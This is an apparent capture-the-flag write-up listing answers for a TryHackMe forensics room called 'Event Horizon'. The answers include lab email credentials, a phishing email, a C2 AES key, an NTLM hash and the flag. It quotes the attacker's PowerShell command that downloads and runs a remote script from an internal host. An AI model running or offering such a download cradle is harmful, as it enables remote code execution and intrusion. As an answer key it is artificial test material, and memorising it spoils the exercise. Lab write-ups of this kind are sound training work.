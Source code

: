 # <div align='center'>[Event Horizon](https://tryhackme.com/room/eventhorizonroom)</div>
<div align='center'>Unearth the secrets beyond the Event Horizon.</div>
<div align='center'>
  <img width="200" height="200" alt="618b3fa52f0acc0061fb0172-1749651774451" src="https://github.com/user-attachments/assets/b3ce0df5-b3d5-4221-88b1-4159db8d6f28" />
</div>

## Task 1. The Event Horizon

Join Tom and Dom on a quest to find out what happens when you look beyond the Event Horizon. A quest beyond borders, they need you to utilize all your abilities to find the secrets that were taken when they crossed over to the other side.

### The attacker was able to find the correct pair of credentials for the email service. What were they? Format: email:password
```
tom.dom@eventhorizon.thm:password
```
### What was the body of the email that was sent by the attacker?
```
Tom! I have done it! I have found the mass of the black hole we found! Run this script as the AdministratOr! Your BEst friend DOm
```
### What command initiated the malicious script download?
```
IEX(New-Object Net.WebClient).downloadString('http://10.0.2.45/radius.ps1')
```
### What is the initial AES key that is used for decrypting the C2 traffic?
```
l86TfRDvvJMtXWxr1PSoh1QlXHnZnLwn+wz+aYy3/s8=
```
### What is the Administrator NTLM hash that the attacker found?
```
13b1e64400203ecf38b1fdea2b11a09f
```

### What is the flag?
```
FLAG{ABOVE_AND_B3YOND_THE_EVENT_HORIZON}
```


